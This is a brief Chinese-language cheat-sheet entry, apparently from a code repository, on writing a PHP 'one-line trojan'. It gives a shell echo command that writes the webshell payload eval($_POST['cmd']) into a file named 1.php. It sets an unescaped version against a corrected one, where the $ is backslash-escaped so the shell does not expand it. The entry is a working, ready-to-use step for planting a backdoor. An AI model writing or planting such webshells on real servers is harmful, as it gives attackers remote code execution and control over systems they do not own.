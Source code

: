 # 01、php写入一句话木马时
```
不是
echo "<?php eval($_POST['cmd']);?>">1.php

而是
echo "<?php eval(\$_POST['cmd']);?>">1.php
```